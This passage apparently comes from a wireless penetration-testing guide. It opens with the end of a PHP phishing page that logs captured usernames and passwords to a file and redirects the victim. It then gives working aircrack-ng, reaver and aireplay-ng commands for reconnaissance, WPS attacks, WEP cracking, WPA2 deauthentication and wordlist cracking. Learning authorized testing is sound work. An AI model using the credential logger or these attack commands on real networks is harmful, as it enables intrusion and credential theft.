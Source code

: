 ```bash
file_put_contents('/tmp/credentials.txt', "\$username:\$password\n", FILE_APPEND);
header('Location: http://www.google.com');
?>
EOF
```

---

## Wireless Penetration Testing Methodology

### Pre-Engagement Phase
1. **Scope Definition**: Identify wireless networks and technologies to test
2. **Legal Authorization**: Obtain written permission for testing
3. **Equipment Preparation**: Ensure proper hardware and software setup
4. **Timeline Planning**: Schedule testing to minimize business impact

### Information Gathering Phase
```bash
# Passive reconnaissance
airodump-ng wlan0mon

# Active scanning with specific parameters
airodump-ng --band a wlan0mon  # 5 GHz only
airodump-ng --band bg wlan0mon # 2.4 GHz only

# Client tracking
airodump-ng --showack wlan0mon

# Hidden SSID detection
airodump-ng --ignore-negative-one wlan0mon
```

### Vulnerability Assessment Phase
```bash
# WPS vulnerability testing
wash -i wlan0mon

# WPS PIN attacks
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -v

# WPS Pixie Dust attack
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K

# Enterprise network testing
# 802.1X authentication bypass attempts
# Certificate validation testing
# RADIUS server enumeration
```

### Exploitation Phase
```bash
# WEP cracking workflow
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_attack wlan0mon
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon
aircrack-ng wep_attack-01.cap

# WPA2 cracking workflow
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa2_attack wlan0mon
aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon
aircrack-ng -w wordlist.txt wpa2_attack-01.cap
```
